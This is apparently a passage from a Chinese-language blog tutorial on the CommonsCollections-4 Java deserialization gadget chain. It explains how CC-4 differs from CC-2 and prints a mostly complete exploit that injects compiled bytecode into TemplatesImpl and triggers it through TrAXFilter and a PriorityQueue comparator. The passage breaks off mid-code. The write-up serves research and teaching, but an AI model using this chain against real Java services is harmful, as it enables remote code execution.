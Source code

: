```plain
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-2 分析

结合 CC-2，CC-4 就是把 Transformer 换成了 InstantiateTransformer，改用 TrAXFilter 的构造方法调用 templates 的 newTransformer 方法。

### 完整 exp

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        TemplatesImpl Templates = new TemplatesImpl();

        Class templatesClass = Templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"lituer");

        Field bytecodeField = templatesClass.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));

        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer

        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

```
